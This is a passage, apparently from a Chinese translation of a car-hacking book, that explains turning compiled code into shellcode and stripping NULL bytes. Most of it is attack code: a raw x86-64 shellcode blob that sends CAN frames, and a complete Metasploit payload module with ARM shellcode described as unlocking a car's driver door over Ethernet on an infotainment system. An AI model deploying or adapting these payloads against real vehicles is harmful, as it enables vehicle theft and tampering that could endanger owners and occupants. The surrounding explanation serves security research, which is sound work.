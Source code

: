 *清单 11-3：将目标文件转换为 shellcode*

这系列命令会遍历你的编译后的目标文件，并提取组成程序的十六进制字节，将其打印到屏幕上。输出的字节就是你的 shellcode。如果你计算打印出的字节数，你会发现这个 shellcode 是 168 字节——这就合适了。

#### ***去除 NULL 值***

但我们还没完成。如果你查看示例 11-3 中的 shellcode，你会注意到仍然存在一些 NULL 值（`\x00`），我们需要将其去除。去除的方法之一是使用 Metasploit 提供的加载器，将字节包装起来，或者重写代码的部分以消除 NULL 值。

你还可以重写你的汇编代码，以便从最终的汇编中去除 NULL 值，通常方法是将 MOV 指令和包含 NULL 值的值替换为清除寄存器的指令，并添加另一条指令以增加适当的值。例如，像`MOV RDI, 0x03`这样的指令会转换为包含许多前导 NULL 值的十六进制数，直到 3。如果要绕过这一点，你可以首先使用`XOR RDI, RDI`将 RDI 清零，这样 RDI 就会变成 NULL，然后通过`INC RDI`指令增加 RDI 三次。在某些地方，你可能需要发挥创造力。

一旦你完成了去除这些 NULL 值的修改，你可以将 shellcode 转换为可以嵌入字符串缓冲区的代码。我不会展示修改后的汇编代码，因为它不太容易读取，但新的 shellcode 看起来是这样的：

```
\x6a\x29\x58\x6a\x1d\x5f\x6a\x03\x5e\x6a\x01\x5a\x0f\x05\x49\x89\xc0\x48\x83\
xec\x28\x4d\x31\xc9\x41\xb9\x30\x00\x00\x00\x49\xc1\xe1\x20\x49\x81\xc1\x76\
x63\x61\x6e\x41\x51\x8f\x04\x24\x6a\x10\x58\x4c\x89\xc7\x41\xb9\x11\x11\x33\
x89\x49\xc1\xe9\x10\x41\x51\x5e\x48\x89\xe2\x0f\x05\x4d\x31\xc9\x4c\x8b\x4c\
x24\x10\x48\x83\xec\x10\xc6\x04\x24\x1d\x4c\x89\x4c\x24\x04\x6a\x31\x58\x4c\
x89\xc7\x48\x89\xe6\xba\x11\x11\x11\x10\x48\xc1\xea\x18\x0f\x05\x48\x83\xec\
x10\x66\xc7\x04\x24\x10\x05\xc6\x44\x24\x04\x08\xc6\x44\x24\x09\xff\x6a\x01\
x58\x4c\x89\xc7\x48\x89\xe6\x0f\x05\x6a\x23\x58\x48\x83\xec\x10\x48\x31\xf6\
x48\x89\x34\x24\xc7\x44\x24\x08\x00\x65\xcd\x1d\x48\x89\xe7\x0f\x05\x48\x83\
xc4\x10\xeb\xd4
```

#### ***创建 Metasploit 载荷***

示例 11-4 是一个使用我们 shellcode 的 Metasploit 载荷模板。将这个载荷保存在*modules/payloads/singles/linux/armle/*目录下，并给它起一个类似于你将要执行的操作的名字，比如*flood_temp.rb*。示例 11-4 中的示例载荷是为一个在 ARM Linux 上运行、使用以太网总线的车载娱乐系统设计的。这个 shellcode 的功能是解锁汽车门，而不是修改温度。以下代码是标准的载荷结构，唯一不同的是我们将`payload`变量设置为所需的车辆 shellcode。

```
   Require 'msf/core'

   module Metasploit3
      include Msf::Payload::Single
      include Msf::Payload::Linux

     def initialize(info = {})
       super(merge_info(info,
         'Name'          => 'Unlock Car',
         'Description'   => 'Unlocks the Driver Car Door over Ethernet',
         'Author'        => 'Craig Smith',
         'License'       => MSF_LICENSE,
         'Platform'      => 'linux',
         'Arch'          => ARCH_ARMLE))
      end
      def generate_stage(opts={})

➊      payload = "\x02\x00\xa0\xe3\x02\x10\xa0\xe3\x11\x20\xa0\xe3\x07\x00\x2d\
   xe9\x01\x00\xa0\xe3\x0d\x10\xa0\xe1\x66\x00\x90\xef\x0c\xd0\x8d\xe2\x00\x60\
   xa0\xe1\x21\x13\xa0\xe3\x4e\x18\x81\xe2\x02\x10\x81\xe2\xff\x24\xa0\xe3\x45\
   x28\x82\xe2\x2a\x2b\x82\xe2\xc0\x20\x82\xe2\x06\x00\x2d\xe9\x0d\x10\xa0\xe1\
   x10\x20\xa0\xe3\x07\x00\x2d\xe9\x03\x00\xa0\xe3\x0d\x10\xa0\xe1\x66\x00\x90\
   xef\x14\xd0\x8d\xe2\x12\x13\xa0\xe3\x02\x18\x81\xe2\x02\x28\xa0\xe3\x00\x30\
   xa0\xe3\x0e\x00\x2d\xe9\x0d\x10\xa0\xe1\x0c\x20\xa0\xe3\x06\x00\xa0\xe1\x07\
   x00\x2d\xe9\x09\x00\xa0\xe3\x0d\x10\xa0\xe1\x66\x00\x90\xef\x0c\xd0\x8d\xe2\
   x00\x00\xa0\xe3\x1e\xff\x2f\xe1"
      end
   end
```
